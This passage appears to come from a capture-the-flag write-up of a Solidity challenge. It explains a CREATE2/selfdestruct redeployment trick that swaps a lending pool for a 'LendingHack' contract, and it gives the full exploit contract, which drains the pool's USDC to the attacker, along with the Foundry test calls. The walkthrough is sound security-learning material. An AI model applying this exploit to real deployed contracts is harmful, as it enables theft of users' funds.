 1. Selfdestruct createDeployer and lendingPool to make their spots free again(otherwise a revert would be triggered)
2. Recreate createDeployer (will be deployed to the same spot as salt is always the same), his nonce will also be reset to 0
3. Use createDeployer to deploy the LendingHack instead of the lendingPool
4. LendingHack will be deployed at the address lendingPool was at before as the nonce of createDeployer is 0 again.
5. Transfer all the USDC to yourself
6. Change the name & storage of the LendingHack beforehand, so the testcase passes

So I started by writing my LendingHack contract, which was pretty easy as it only needed the same storage layout as lendingPool as well as the function to send all its USDC to the attacker in its constructor.

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import {Ownable} from "@openzeppelin/contracts/access/Ownable.sol";
import {USDC} from "./USDC.sol";

/**
 * @title LendingPool
 */
contract LendingHack is Ownable {
    /*//////////////////////////////
    //    Add your hack below!    //
    //////////////////////////////*/
    mapping(address => uint256) public balances;
    USDC public usdc;
    string public constant name = "LendingPool hack";

    /**
     * @dev Constructor that sets the owner of the contract
     * @param _usdc The address of the USDC contract to use
     * @param _owner The address of the owner of the contract
     */
    constructor(address _owner, address _usdc) {
        // change me pls :)
        _transferOwnership(_owner);
        usdc = USDC(_usdc);
        usdc.transfer(_owner, usdc.balanceOf(address(this)));
    }

    //============================//
}
```

Now I just needed to do the other steps, which can be done by 2 calls in the setUp() as well as 2 calls in the normal testcase, which need to be split because of the foundry bug.

in setUp():
```solidity
lendingPool.emergencyStop();
createDeployer.cleanUp();
```

in testExploit():
```solidity
createDeployer = CreateDeployer(create2Deployer.deploy());
LendingHack hack = LendingHack(createDeployer.deploy(false, address(usdc)));
```
